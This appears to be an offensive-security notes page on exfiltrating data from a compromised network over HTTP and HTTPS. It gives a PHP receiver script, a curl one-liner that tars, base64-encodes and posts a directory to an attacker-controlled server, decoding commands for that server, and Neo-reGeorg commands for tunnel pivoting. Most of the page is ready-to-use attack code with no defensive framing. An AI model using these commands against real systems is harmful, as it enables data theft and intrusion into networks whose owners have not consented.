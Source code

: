 # Data Exfiltration Over HTTP and HTTPS

Real world scenario is that an attacker controls a cloud web server an agent or command is then executed from inside the network with a compromised machine to send the data to the webserver that is outside the compromised network. Then the attacker can just log in to a web server to get the data.

## HTTP

**HTTP Data Exfiltration will all be in plaintext and therefore not secure.**

1.  An attacker create a page to be a data handler on the web server.
2.  A C2 agent or an attacker sends the data. 
3.  The webserver receives and stores the data.
4.  Login to webserver and get the data.

#### PHP version:#
bad.php contains:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Then from the machine containing the data to be exfiltrated

```bash
curl --data "file=$(tar zcf - <directory> | base64)" http://webserver/bad.php
```

From the webserver

```bash
sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

## HTTPS 

[neo-regeorg](https://github.com/L-codes/Neo-reGeorg) is the improve regeorg a tool for HTTP tunnel pivoting previously written in python 2.7.
```bash
# Generates encrypted Tunneling clients
# key is in the neoreg_servers/
/opt/Neo-reGeorg: python3 neoreg.py generate -k <key> 
# upload one of the compatible clients to webserver
# create tunnel
/opt/Neo-reGeorg: python3 neoreg.py -k <key -u http://url/path/to/tunnel.php
 curl --socks5 127.0.0.1:1080 http://inaccessible-without-tunnel
```

## Notes
The 'Black Hat Python Ed.2' book contains a API exfiltration script to pastebin from a Windows Machine


## References